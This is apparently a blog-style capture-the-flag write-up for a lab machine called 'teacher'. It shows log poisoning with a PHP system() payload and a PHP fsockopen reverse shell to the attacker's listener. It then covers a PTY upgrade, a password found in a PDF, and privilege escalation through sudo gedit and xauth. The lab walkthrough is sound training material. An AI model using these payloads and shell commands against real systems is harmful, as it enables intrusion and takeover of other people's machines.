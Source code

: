 ```yaml
---
layout: post
title:  "teacher"
date:   2022-09-07 10:00:00 +1000
category: hacking
---
```


{% highlight shell %}
GET /access.php?id=<%3fphp+system($_GET['cmd'])%3b%3f> HTTP/1.1
{% endhighlight %}

writes parameter to log.php

{% highlight shell %}
GET /log.php?cmd=php+-r+'$sock%3dfsockopen("10.10teacher.10.73",1234)%3bexec("/bin/sh+-i+<%263+>%263+2>%263")%3b' HTTP/1.1
{% endhighlight %}

{% highlight shell %}
┌──(root💀kali)-[/opt/hmv/teacher]
└─# nc -nvlp 1234        
listening on [any] 1234 ...
connect to [10.10.10.73] from (UNKNOWN) [10.10.10.122] 57378
/bin/sh: 0: cant access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@Teacher:/var/www/html$ ls -lash
ls -lash
total 5.3M
4.0K drwxr-xr-x 2 root      root      4.0K Aug 26 19:39 .
4.0K drwxr-xr-x 3 root      root      4.0K Aug 24 17:24 ..
4.0K -rw-r--r-- 1 root      root       191 Aug 25 16:53 access.php
4.0K -rw-r--r-- 1 root      root        48 Aug 26 19:39 clearlogs.php
5.1M -rw-r--r-- 1 mrteacher mrteacher 5.1M Aug 25 17:38 e14e1598b4271d8449e7fcda302b7975.pdf
4.0K -rw-r--r-- 1 root      root       315 Aug 26 16:51 index.html
8.0K -rwxrwxrwx 1 root      root      5.9K Sep  7 15:06 log.php
128K -rw-r--r-- 1 root      root      128K Aug 26 16:39 rabbit.jpg
www-data@Teacher:/var/www/html$ file e14e1598b4271d8449e7fcda302b7975.pdf
file e14e1598b4271d8449e7fcda302b7975.pdf
e14e1598b4271d8449e7fcda302b7975.pdf: PDF document, version 1.4 (password protected)
{% endhighlight %}

password in pdf

{% highlight shell %}
┌──(root💀kali)-[/opt/hmv/teacher]
└─# wget http://10.10.10.122/e14e1598b4271d8449e7fcda302b7975.pdf                                                                                                     
--2022-09-07 07:08:26--  http://10.10.10.122/e14e1598b4271d8449e7fcda302b7975.pdf
Connecting to 10.10.10.122:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5301604 (5.1M) [application/pdf]
Saving to: ‘e14e1598b4271d8449e7fcda302b7975.pdf’
{% endhighlight %}

back on box

{% highlight shell %}
www-data@Teacher:/var/www/html$ su mrteacher
su mrteacher
Password: ThankYouTeachers

mrteacher@Teacher:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for mrteacher on Teacher:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mrteacher may run the following commands on Teacher:
    (ALL : ALL) NOPASSWD: /bin/gedit, /bin/xauth

┌──(root💀kali)-[/opt/hmv/teacher]
└─# ssh -X mrteacher@10.10.10.122
The authenticity of host '10.10.10.122 (10.10.10.122)' cant be established.
ED25519 key fingerprint is SHA256:hShUum4jvn2yQa8RsN2brmvRwoUyIktGfCx1BfrAPQA.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.122' (ED25519) to the list of known hosts.
mrteacher@10.10.10.122s password: 
Linux Teacher 5.10.0-17-amd64 #1 SMP Debian 5.10.136-1 (2022-08-13) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Sep  5 17:55:42 2022 from 192.168.1.23
mrteacher@Teacher:~$ sudo -l
Matching Defaults entries for mrteacher on Teacher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mrteacher may run the following commands on Teacher:
    (ALL : ALL) NOPASSWD: /bin/gedit, /bin/xauth
mrteacher@Teacher:~$ sudo -u root /bin/gedit
X11 connection rejected because of wrong authentication.
Unable to init server: Could not connect: Connection refused

(gedit:938): Gtk-WARNING **: 15:12:03.860: cannot open display: localhost:10.0

# https://www.ibm.com/support/pages/x11-forwarding-ssh-connection-rejected-because-wrong-authentication

mrteacher@Teacher:~$ sudo -u root /bin/xauth add $(xauth -f ~mrteacher/.Xauthority list | tail -1)
mrteacher@Teacher:~$ sudo -u root /bin/gedit
{% endhighlight %}

gedit opens and we can read whatever we want as root
